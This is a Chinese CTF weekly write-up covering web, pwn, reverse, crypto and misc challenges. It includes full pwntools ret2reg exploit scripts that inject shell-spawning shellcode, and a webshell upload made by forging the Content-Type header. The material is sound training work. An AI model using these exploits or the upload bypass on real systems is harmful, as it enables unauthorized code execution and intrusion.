

# BestiCTF S1 Week21 周赛 Writeup

[TOC]


## 参赛情况


## Web

### [谢谢树神](https://www.nssctf.cn/team/problem/6459)

#### 题目描述

***伟大的树主席教育我们说：打CTF一定要有电脑！***

谢谢树神打赏，这是树神让我给他出的题。


#### 解题思路

打开环境，有个弹窗告诉我们，“点击按钮，赞美一千次树神，即可获得flag”。

我点了1000次，真出了flag。

##### Python requests

我们发现，每一次点击按钮，都会向check.php发送一次get请求，

可以用Python库编写自动请求check.php脚本：

```python
import requests

url = "http://127.0.0.1:8080/check.php"
PHPSESSID = 'bda0b8493b29dba57ae35581fe7d73f3'

for i in range(1000):
    requests.get(url, cookies={'PHPSESSID': PHPSESSID})
```

##### Burpsuite

BP 的 intruder 也可以实现类似的功能。

#### 总结

- Web自动化
	- 基础
		- 多发


### [科电院文件存储系统2](https://www.nssctf.cn/team/problem/6457)

#### 题目描述

尽情地在这个新系统存储你的文件吧~

#### 解题思路

打开网站，还是熟悉的文件上传界面。随便上传个webshell.php，发现被禁止了，显示“File type not allowed: onepayload.php”。

猜测为检测Content-Type，使用 bp，修改 Content-Type 为 image/jpeg，


成功上传。


使用蚁剑连接，


根目录得到 flag：


#### 总结

- 文件上传
	- 通用检查绕过
		- Content-Type


### [蠢货](https://www.nssctf.cn/team/problem/6456)

#### 题目描述

***你做过项目吗***

Well, not until a certain git by the name of Lockhart took over as Defence Against the Dark Arts teacher, at any rate.

> git 的中文含义即为“蠢货”。

#### 解题思路

打开网站，只显示了个时间，根据 CTF 作战手册第一守责：`遇 Web，先扫描`，使用 dirsearch 扫描目录：

`dirsearch -u http://node6.anna.nssctf.cn:22926/`

发现有 git 目录：


使用 githack 提取：


在 githack 目录下可以找到提取出来的文件：


发现 f1lag.php 是一个webshell，蚁剑连接即可获得 flag。

#### 总结

- Web基础
	- 信息搜集
		- .git 泄露


### [走过再折返](https://www.nssctf.cn/team/problem/6448)

#### 题目描述

***共你像同路 兜圈几百天***

你们的生活到底真的假的啊？每天下课铃一响，说冲就冲，书包一背，电脑一拿，就去组战队，作业好像完全没有一样。学校也是不补课。水族馆，ring，space，武道馆你们也有钱去，每天要么就是网上冲浪，要么就是实验室训练。我怎么一天到晚早八啊，还没钱出去玩，你们到底怎么弄的呀？教教我行不行

#### 解题思路

此事在week14早有记载：


看似逆天的题目，实则是个非预期，扫描目录即可。


## Pwn

### [寄存有风险](https://www.nssctf.cn/team/problem/6452)

#### 题目描述

***你这个人，满脑子都想着溢出呢***

你知道为什么乘客未登机时其行李也不能上飞机吗？

#### 解题思路

IDA 打开，发现程序中有`call rax`指令：


在 _readline 函数找到溢出点，只能覆盖返回地址：


同时注意到 strncpy 函数的返回值同时也是 _readline 函数的返回值，strncpy 函数返回值为写入地址，即此事 rax 寄存器指向的是 a1 的地址，不难想到是 ret2reg。即在 buf 中写入 shellcode，复制到 a1 后，我们通过跳转到 call rax，使得 IP 指针跳转到 a1，进而执行 shellcode。

#### EXP

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
context.terminal = ['cmd.exe', '/c', 'wt.exe', '-w', '0', '--title', 'gdb', 'bash', '-c']

# p = remote("127.0.0.1", 9999)
p = process("./attachment")
elf = ELF("./attachment")
# gdb.attach(p, "b *0x40122F")

target_address = 0x401302

# 64位
context(arch="amd64",os="linux")
stack_len = 0x100 + 0x8

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(stack_len , b"\xff") + p64(target_address)

input()

p.send(payload)

p.interactive()
```

#### 总结

- 栈溢出
	- 中级ROP
		- ret2reg


### [寄存有风险2](https://www.nssctf.cn/team/problem/6460)

#### 题目描述

***我从来不觉得栈溢出开心过***

因为树神觉得太简单了，所以给树神出的补充题：


所以，你知道为什么乘客未登机时其行李也不能上飞机吗？

#### 解题思路

本题与上题基本相似，差异如下：

1. 堆不可执行，而 strncpy 函数返回的 a1 为堆上的地址
2. strncpy 的调用有差异
3. 可溢出的长度增加了 8 字节

本题使用 pwndbg 进行调试，查看 _readline 函数返回时寄存器状况：

```python
gdb.attach(p, "b *0x401226")
```


可以看出，此时 rax，rcx 都指向我们的 shellcode，但是 rax 指向的是堆，rcx 指向的是栈。不幸的是，程序中`call rax`有很多，`call rcx`却根本没有。那我们就要想办法把 rax 也变成 rcx 的值。

不难注意到 mystrncpy 函数中，有一处同时对 rax 和 rcx 的处理：


基本执行流程为：rax 的值为 复制源地址，rcx 的值为 复制目标地址，call 后返回得到的 rax 为 rcx 的值，这就是我们想要的。

所以我们只需要再调用一次 mystrncpy 函数，再跳转到 `call rax` 即可。

#### EXP

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
context.terminal = ['cmd.exe', '/c', 'wt.exe', '-w', '0', '--title', 'gdb', 'bash', '-c']

# p = remote("127.0.0.1", 9999)
p = process("./attachment")
elf = ELF("./attachment")
# gdb.attach(p, "b *0x401226")

target_address = 0x4012E3

# 64位
context(arch="amd64",os="linux")
stack_len = 0x100 + 0x8

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(stack_len , b"\xff") + p64(0x4011A6) + p64(target_address)

#input()

p.send(payload)

p.interactive()
```

#### 总结

- 栈溢出
	- 中级ROP
		- ret2reg


## Reverse

### [什么特征](https://www.nssctf.cn/team/problem/6447)

#### 题目描述

***可好像认识了几个世纪 又不敢伸手触及***

什么特征，人缘还是眼神
也不会预知爱不爱的可能

#### 解题思路

IDA 打开，默认是 start 函数，可以看出 sub 4018D3 就是 main 函数，


打开，可以看到 main 函数的基本逻辑


首先分析 sub_401845 函数，打开：



很明显，是一个 字符串逆序，编写代码：

```c
void reverse(char* str)
{
    int n = strlen(str);
    for (int i = 0; i < n / 2; i++)
        swap(str[i], str[n - i - 1]);
}

int main()
{
    char flag[] = "}6vvjCl1_xr4G5d{xsfa";
    
    reverse(flag);
```

接下来对用户输入的 flag 的处理是这部分：


虽然有些地方看不太懂，但是可以猜出来，应该是有个对字母数字的判断，还有个对大小写的判断，看起来像变异凯撒。尝试编写代码如下：

```c
for(int i = 0,j = strlen(flag); i < strlen(flag); i++,j--)
{
    if(isalpha(flag[i]))
    {
        if(flag[i] >= 'a' && flag[i] <= 'z')
            flag[i] = ((flag[i]-'a'-j) % 25 + 25) % 25 + 'a';
        else
            flag[i] = ((flag[i]-'A'-j) % 25 + 25) % 25 + 'A';
    }
    else if(isdigit(flag[i]))
    {
        flag[i] = ((flag[i]-'0'-j) % 9 + 9) % 9 + '0';
    }
}
```

最终得到 flag。


#### EXP

```c
#include <iostream>
#include <cstdio>
#include <cstdlib>
#include <cstring>
#include <cctype>
#include <cmath>
#include <vector>
#include <algorithm>
#include <stack>
#include <set>
#include <map>
#include <ctime>
#include <unistd.h>
#include "defs.h"
// #include <bits/stdc++.h>

using namespace std;
typedef long long LL;
typedef long double DD;

void reverse(char* str)
{
    int n = strlen(str);
    for (int i = 0; i < n / 2; i++)
        swap(str[i], str[n - i - 1]);
}

int main()
{
    char flag[] = "}6vvjCl1_xr4G5d{xsfa";
    reverse(flag);

    for(int i = 0,j = strlen(flag); i < strlen(flag); i++,j--)
    {
        if(isalpha(flag[i]))
        {
            if(flag[i] >= 'a' && flag[i] <= 'z')
                flag[i] = ((flag[i]-'a'-j) % 25 + 25) % 25 + 'a';
            else
                flag[i] = ((flag[i]-'A'-j) % 25 + 25) % 25 + 'A';
        }
        else if(isdigit(flag[i]))
        {
            flag[i] = ((flag[i]-'0'-j) % 9 + 9) % 9 + '0';
        }
    }

    cout << flag << endl;

	return 0; //-22 61 13 92
}
```

#### 总结

- 静态分析
	- 基本分析
		- 无符号分析


### [贝斯手](https://www.nssctf.cn/team/problem/6453)

#### 题目描述

***你的代码是来自内心的呐喊***

对了，我不会再把你叫做贝斯酱了。
我不会放弃逆向的，Kimitachi也别放弃哦！

#### 解题思路

IDA 打开，查看主函数，代码逻辑比较清晰，就是一个 enc 函数：


查看 enc 函数代码，结合 listchars 以及 flag，sna，可以判断是 base64 编码。


使用 shift + E 提取 sna，cyberchef 解码得到 flag：


```
file:///D:/Windows/CTF%20tools/Cryptography/CyberChef/CyberChef_v10.19.2.html#recipe=From_Decimal('Line%20feed',false)From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=OTAsDQogIDEwOSwNCiAgMTIwLA0KICAxMDQsDQogIDkwLA0KICA1MSwNCiAgMTE2LA0KICAxMDUsDQogIDg5LA0KICA4OCwNCiAgNzcsDQogIDQ4LA0KICA4OCwNCiAgMTIyLA0KICA2NiwNCiAgMTEwLA0KICAxMDEsDQogIDg3LA0KICA0OSwNCiAgMTAyLA0KICA5OSwNCiAgNTEsDQogIDgxLA0KICAxMjAsDQogIDg4LA0KICA1MCwNCiAgNzgsDQogIDExOSwNCiAgOTksDQogIDcyLA0KICA0OCwNCiAgNjE&ieol=CRLF&oeol=NEL
```

#### 总结

- 静态分析
	- 算法分析
		- Base64


## Crypto

### [一转攻势](https://www.nssctf.cn/team/problem/6445)

#### 题目描述

***有时候会被迫换位思考***

以前都是拿n求d，现在直接把d给你，是不是感觉简单多了。

#### 解题思路

已知 n，d，要求 p，q。[私钥 d 相关攻击 - CTF Wiki](https://ctf-wiki.org/crypto/asymmetric/rsa/d_attacks/rsa_d_attack/#d_1)

先使用 rsatool 得到 p，q，再求得p,q的下一个素数后解密即可。

#### EXP

```python
from Crypto.Util.number import *
import gmpy2

'''
python rsatool.py -n 68274451921120277644948315205903565990650196980715136551996124256176509450128201639785762404227426888959564875334094317644401605198574580124331325413645642861383210582310149317118337973703508520423245755267301953610726622840072130070117276148941811918481259947951260676470382810616211219540977748150979224577 -d 43114675179020764005276881351168423670431192337822552776918558958544349300441060058656538487592600961693097821544727824435528096079286625463868902048753191189256462566444471259845881929951660235184216054342569280069515417833208174110357747378750276295157914757772622406407127846898706334277868561576243011881
'''

p = gmpy2.next_prime(0x9782fb7f97926b3d8140a63afc0d3d6ee28acddef341a10b74d63b02ea6cba22ceaead5882fb769fcdba0278ac8747ad7efbce506e4e8a0a6c0a496ae37b0027)
q = gmpy2.next_prime(0xa446e49034d7fd5c95aac2a1f37c901c4e78d3077e8eccebc09ad0df807fa02ae4628025cc5c52e890726050b8c13139641bace26d0bf3191c9b8a0f53846b97)

e = 0x10001

c = 51098255797834981033841219322332292220735068619167968197620039301307880175704232879247748907921281981721787007591904661458572658183962642385305796982572345197335930370114355999933696132692879261552378752967869998842188148204815176072508330395979258872602226410064225989593463522506018475272551792851393180501

phi = (p-1)*(q-1)
d = inverse(e, phi)

m = pow(c, d, p*q)
print(long_to_bytes(m))
```

#### 总结

- RSA
	- 私钥 d 相关攻击
		- d 泄露攻击 n


### [暧昧如此喧嚣](https://www.nssctf.cn/team/problem/6450)

#### 题目描述

***低语 对望 触碰 追逐 拥抱***

Mais dans l’eau, doublement je me reflète
Bien cachés derrière un sourire
Mes doutes ne cessent de grandir

#### 解题思路

使用相同的模数 N，但e不同也就是私钥不同，加密同一明文消息时即存在共模攻击。

[模数相关攻击 - CTF Wiki](https://ctf-wiki.org/crypto/asymmetric/rsa/rsa_module_attack/#_7)

#### EXP

```python
from Crypto.Util.number import *
import gmpy2

n = 127186193089316207825960436085828717408807309981479609207507167761116076357328682392557751245387524560492534233418730974464547279058091680433474400073920919183230388322445407941373013373364668835912102000961632599117960348784049401547035920855295039475328778022932060474710094905703923145212312377404088515169
c1 = 73927882133159438750918079795681674238274016685639557990485023591265296567867619764061896027530491941360288815450576650686274688834364319218268446442854457832139107141160928380287792001046791100074086697993304320155774263056625457431327547350073162528113852977588889266436941591172299581093315152522949613850
c2 = 71799695413287242442534132367865315343149300737332660482883157813774216282462769258451910501571874790871416181277075921370456440191716399498845144660860224168554250290017228126456963514812138624666745472580211421642497372264550380178232412325604430159840427573655422208136428450573140672642387707406727759576
e1 = 0x10001
e2 = 0x7

gcd, s, t = gmpy2.gcdext(e1, e2)
if s < 0:
    s = -s
    c1 = gmpy2.invert(c1, n)
if t < 0:
    t = -t
    c2 = gmpy2.invert(c2, n)

m = pow(c1, s, n) * pow(c2, t, n) % n
print(long_to_bytes(m))
```

#### 总结

- RSA
	- 模数相关攻击
		- 共模攻击


## Misc

### [多试几次](https://www.nssctf.cn/team/problem/6446)

#### 题目描述

密码忘了没关系，多试几次就知道了。

#### 解题思路

打开附件压缩包，发现是加密的，注释提示我们密钥只有几个数字。


使用 ARCHPR 爆破，参数如下，长度1-8：


爆破得到口令，解压得到 flag。

#### 总结

- 压缩包分析
	- 加密压缩包分析
		- 暴力破解


### [聊天记录](https://www.nssctf.cn/team/problem/6451)

#### 题目描述

***翻聊天记录等信息等着你回***

我的TCP请求又超时了，我只能翻着流量记录，等着ta回。

#### 解题思路

打开附件，是一个流量文件，用 Wirkshark 打开，过滤器输入 `http` 过滤 http 请求，逐个查看，即可发现 flag。


#### 总结

- 流量取证分析
	- 流量包分析


### [简单的图搜](https://www.nssctf.cn/team/problem/6458)

#### 题目描述

***旧照片的秘密***

“这是哪里来着？”

提交格式：flag{XX省\_XX市\_学校名}

#### 解题思路

下载下来是个 jpg 图片，右键属性没有 EXIF 信息，使用 XX 识图搜索，可以搜索到照片中此处为洛阳师范学院：


#### 总结

- OSINT
	- 图寻


